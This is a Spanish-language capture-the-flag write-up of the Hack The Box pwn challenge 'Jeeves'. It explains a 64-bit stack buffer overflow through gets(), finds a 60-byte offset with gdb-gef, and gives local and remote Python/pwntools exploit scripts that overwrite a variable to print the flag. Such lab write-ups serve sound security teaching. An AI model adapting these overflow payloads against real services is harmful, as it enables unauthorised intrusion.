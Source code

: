```yaml
---
title: Jeeves - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/image.png)

Este es un reto de pwning el cual implica explotar una vulnerabilidad Buffer Overflow en un binario de 64 bits. El objetivo principal es sobrescribir el valor de un registro de memoria en específico, el cual se emplea en una condición dentro del programa; la cual si resulta ser verdadera, provocará que este imprima la flag.

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled.png)

Como se observa a continuación, el binario recibe un input del usuario, el cual es impreso en el output resultante de la ejecución:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%201.png)

Al analizar el código Assembler se identifican dos instrucciones importantes en la función **main**.

Primeramente se asigna el valor `0xdeadc0d3` al registro `rbp-4` , a través de la instrucción **MOV**.

```jsx
0x00005555555551f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
```

Posterior a esto, dicho valor es sometido a un condicional, a través de una instrucción **CMP**, de comparación, con el valor `0x1337bab3`.

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%202.png)

Al observar el código fuente, reverseado con **Ghidra**, se puede entender mucho mejor cómo funciona el programa.

Como se visualiza en imagen, el valor de la variable `target_variable` es sometido a un condicional. Si dicho valor es igual a `0x1337bab3`, el programa imprimirá el contenido del archivo `flag.txt`, caso contrario no lo hará y sólo terminará la ejecución: 

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%203.png)

Es importante mencionar que en el código reverseado se identifica que el programa recibe el input del usuario a través de la función `gets`, la cual es vulnerable a ataques de desbordamiento de buffer, de acuerdo a su documentación:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%204.png)

Sabiendo esto, se procede a debuggear el binario, utilizando la herramienta **gdb-gef**.

Previo a arrancar, se debe crear un archivo `flag.txt`, de prueba, debido a que el programa lee el contenido de este para obtener el valor de la flag: 

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%205.png)

Hecho esto, se procede a abrir el binario con **gdb-gef**, donde se establece un breakpoint en la instrucción de memoria, en la cual se realiza la comparación del valor `0x1337bab3` con el valor almacenado en el registro `rbp-0x4`:

```jsx
0x0000555555555236 <+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
```

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%206.png)

Al ejecutar el programa, con el breakpoint en el condicional, se logra visualizar que el valor almacenado en el registro `rbp-4`, corresponde a `0xdeadc0d3`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%207.png)

A modo de prueba se modifica el valor de dicho registro de memoria por `0x1337bab3`, con el objetivo de que el resultado de la condición sea verdadero:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%208.png)

Como se mostró en la imagen anterior, cuando el resultado de la condicional es verdadero, el programa imprime la flag, almacenada en el archivo `flag.txt`.

Sin embargo, para lograr el desafío de HTB no podemos usar **gdb**, debemos lograrlo directamente a través de un Buffer Overflow.

Para esto, primeramente podemos identificar que se configura el input del usuario, el cual como límite debe ser una cadena de 44 bytes:

```c
char user_name [44];
int flag_content;
void *flag_length;
int target_variable;
```

Si metemos más caracteres de los que soporta el valor de la variable, el buffer se sobrescribe al momento de llamar a la función `gets`, lo cual causa que el programa no termine su ejecución de manera exitosa:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%209.png)

Sabiendo esto, se crea una cadena de 100 bytes con la herramienta `pattern create`, de gdb, la cual se inyecta en el input para detectar el offset, que corresponde a todo el junk previo a meter para sobrescribir el valor almacenado en `rbp-4`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2010.png)

Como se puede ver, luego de inyectar dicha entrada de caracteres, se detecta que el offset es 60:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2011.png)

De esta manera, lo que se puede concluir hasta ahora, es que tenemos que introducir 60 caracteres antes de sobrescribir el valor de `rbp-4`.

De esta forma, a modo de validar la sobreescritura de `rbp-4` se crea la siguiente cadena, la cual son 60 As y 6 Bs:

```jsx
┌──(sha16㉿offs3c)-[~]
└─$ python3 -c "print('\x41'*60+'\x42'*6)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
```

Posterior a la inyección de la cadena creada, se determina que el offset es correcto, dado que el valor de `rbp-4` es `BBBBBB`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2012.png)

Dado esto, se procede a armar el siguiente exploit en Python3, el cual se encarga de inyectar el valor en el registro `rbp-4`:

```python
#!/usr/bin/python3

from pwn import context, process, p64

if __name__ == '__main__':
    # Set program context
    context.update(arch='amd64', os='linux')
    elf = process('./jeeves')

    # BoF
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    # Send payload
    elf.sendline(payload)
    elf.interactive()
```

Al ejecutar el exploit, se observa que la flag es obtenida correctamente:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2013.png)

Sabiendo que el exploit funciona, ahora este puede ser adaptado a una versión remota para obtener el flag de HackTheBox y completar el reto correctamente:

```python
#!/usr/bin/python3

from pwn import p64
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    with socket() as s:
        s.connect((host, port))
        s.send(payload)
        print(s.recv(4096))
        print(s.recv(4096))
```

Al ejecutar el exploit, se obtiene con éxito la flag del desafío:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2014.png)

De forma aparte, me gustaría mostrarles cómo con la librería de pwntools también pueden crear su propio exploit, un tanto más elegante:

```python
#!/usr/bin/python3

from pwn import remote, p64, success
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'
		
	# Remote Connection
    connection = remote(host, port)
    connection.sendline(payload)
    connection.recvuntil(b'Here\'s a small gift:')
    flag = connection.recv(4096)
    success(b'HTB Flag:' + flag)
```

Al ejecutarlo la flag es obtenida a través de un output mucho más limpio:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2015.png)

Eso es todo, espero que le haya gustado y servido mucho este post para aprender algunos conceptos básicos de binary exploitation. La verdad es una temática en la que recién me estoy adentrando y compartirles esto me sirve mucho para retroalimentar estos conceptos. 

Cualquier duda, consulta, corrección, etc., saben que me pueden contactar en LinkedIn o Twitter 👾

Happy Hacking 🏴‍☠️